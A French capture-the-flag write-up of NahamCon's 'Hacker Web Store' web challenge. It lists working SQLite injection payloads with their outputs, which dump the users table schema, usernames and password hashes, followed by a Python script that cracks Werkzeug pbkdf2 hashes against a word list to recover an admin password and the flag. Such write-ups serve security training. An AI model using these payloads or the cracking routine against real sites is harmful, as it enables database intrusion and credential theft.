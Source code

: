# Hacker Web Store

***NahamCon CTF WriteUp | Web - Medium***

## Énoncé
  
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.  
  
_This challenge may require a local password list, which we have provided below. **Reminder, bruteforcing logins is not necessary and [against the rules.](https://ctf.nahamcon.com/rules)**_**  

**Connect with:**  

-   [http://challenge.nahamcon.com:30584](http://challenge.nahamcon.com:30584)

**Attachments:** [password_list.txt](./password_list.txt)

## Enumeration

On arrive sur un site avec 3 onglets différents : `Products`, `Create` et `Admin`. Les différents produits sont représentés par des sortes de cartes, composés d'un titre, un prix et une description. 

![home page](home_page.png)

Dans `Create`, il nous est possible de créer un nouveau produit, qui sera ensuite listé avec les autres, dans la page `Products`. D'après le *title* des pages, il s'agirait d'une application *Flask*. Ma première idée est donc de tester une *template injection*:

![ssti](ssti.png)

Le serveur n'a pas interprété notre payload, la piste n'est donc probablement pas la *SSTI*. Testons l'*injection SQL*... Tiens, quand on essaye de créer un produit avec `'` en valeur comme decription, voilà l'output: 

![sqli](sqli.png)

Trop sympa ! L'erreur nous donne la *query* entière :) Exploitons cette faille :

```sql
# Ci-dessous la liste des payloads que j'ai utilisé dans l'ordre, avec leur output respectif 

' || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' LIMIT 1) || '
--> CREATE TABLE users ( id INTEGER NOT NULL, name VARCHAR(100), password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )


' || (SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('users')) || '
--> id,name,password

' || (SELECT name from users where id=0) || '
--> None

' || (SELECT name from users limit 1) || '
--> Joram

' || (SELECT name from users where name NOT like 'Joram' limit 1) || '
--> James

' || (SELECT name from users where name NOT like 'Joram' AND name NOT like 'James' limit 1) || '
--> website_admin_account

' || (SELECT password from users where name='website_admin_account') || '
--> pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57

' || (SELECT password from users where name='James') || '
--> pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b


' || (SELECT password from users where name='Joram') || '
--> pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
```

On a pu récupérer 3 noms d'utilisateurs avec les *hashs* de leurs mots de passe. Il nous reste plus qu'à *cracker* tout ça :) Après quelques recherches sur les *hashs* en question, voici ce que j'ai trouvé : 
 - D'après [ce topic stackoverflow](https://stackoverflow.com/questions/76935900/werkzeug-password-encryption), il s'agirait du format par défaut de hashage de mots de passe de *Werkzeug*
 - En allant faire un tour sur la [doc officielle](https://werkzeug.palletsprojects.com/en/3.0.x/utils/#werkzeug.security.check_password_hash) de *Wekzeug*, on croise la fonction `werkzeug.security.check_password_hash(_pwhash_, _password_)`, on n'a plus qu'à se servir de notre petit fichier `password_list.txt` fourni au début pour cracker les hashs. 

## Récupération du flag

Le script est plutôt explicite :

```python
import werkzeug

hash1 = "pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34"
hash2 = "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57"
hash3 = "pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b"

file = open('password_list.txt','r')
for i in file.read().splitlines():
        if werkzeug.security.check_password_hash(hash1, i):
                print("password found for hash1: "+ i)
        if werkzeug.security.check_password_hash(hash2, i):
                print("password found for hash2: "+ i)
        if werkzeug.security.check_password_hash(hash3, i):
                print("password found for hash3: "+ i)
```

```bash
$ python3 script.py
password found for hash2: ntadmin1234
```

On retourne sur le site, pour se connecter avec le compte admin, et récupérer le flag.
 
Flag : `flag{87257f24fd71ea9ed8aa62837e768ec0}`

